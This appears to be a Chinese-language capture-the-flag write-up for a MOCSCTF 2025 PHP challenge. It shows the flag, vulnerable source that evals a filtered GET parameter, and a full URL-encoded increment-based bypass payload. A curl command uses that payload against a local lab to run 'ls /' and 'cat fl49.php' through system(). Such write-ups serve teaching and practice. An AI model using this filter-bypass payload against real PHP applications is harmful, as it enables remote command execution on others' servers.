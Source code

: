 ## flag

MOCSCTF{3ez_r@c-es-you@-good}

## 解題步驟

1. 首先進入題目會自動跳轉到百度頁面，使用Burp Suite抓包後重放請求，觀察響應即可獲取提示

![image-20250507225953084](img/image-20250507225953084.png)

2. 得到提示

```
/s3cret/rce.php
```

3. 訪問得到題目源碼

```
<?php
highlight_file(__FILE__);

if (isset($_GET['MOCSCTF2025'])) {
    $code = $_GET['MOCSCTF2025'];

    if(!preg_match("/[a-zA-Z0-9@#%^&*:{}\-<\?>\"|`~\\\\]/",$code)){

        eval($code);
    }
    else{
        die('hacker！！你想幹嘛！！！');
    }
}
```

4. 經典的自增繞過，這邊演示構造POST的自增繞過方法

```
<?php
//獲取N
$_=(_/_)._;
$_=$_[_];
//自增到O並儲存O
$__=++$_;
//自增到P並儲存PO
$__=++$_.$__;
//獲取_POST
$_++;$_++;
var_dump($_=$__.++$_.++$_);
//得到$_POST[_]($_POST[__])
//$$_[_]($$_[__]);

一步步看懂就可以了
?shell=$_=(_/_)._;$_=$_[_];$__=++$_;$__=++$_.$__;$_++;$_++;$_=_.$__.++$_.++$_;$$_[_]($$_[__]);
url編碼記得對加號進行編碼，不然會被當做空格
?shell=%24_%3D(_%2F_)._%3B%24_%3D%24_%5B_%5D%3B%24__%3D%2B%2B%24_%3B%24__%3D%2B%2B%24_.%24__%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%3D_.%24__.%2B%2B%24_.%2B%2B%24_%3B%24%24_%5B_%5D(%24%24_%5B__%5D)%3B
```

5. 執行payload

```
GET：?shell=%24_%3D(_%2F_)._%3B%24_%3D%24_%5B_%5D%3B%24__%3D%2B%2B%24_%3B%24__%3D%2B%2B%24_.%24__%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%3D_.%24__.%2B%2B%24_.%2B%2B%24_%3B%24%24_%5B_%5D(%24%24_%5B__%5D)%3B
POST：
_=system&__=ls /
_=system&__=cat fl49.php
```

```bash

curl -X POST http://127.0.0.1:8082/s3cret/rce.php?MOCSCTF2025=%24_%3D%28_%2F_%29._%3B%24_%3D%24_%5B_%5D%3B%24__%3D%2B%2B%24_%3B%24__%3D%2B%2B%24_.%24__%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%3D_.%24__.%2B%2B%24_.%2B%2B%24_%3B%24%24_%5B_%5D%28%24%24_%5B__%5D%29%3B -d "_=system&__=cat fl49.php"
```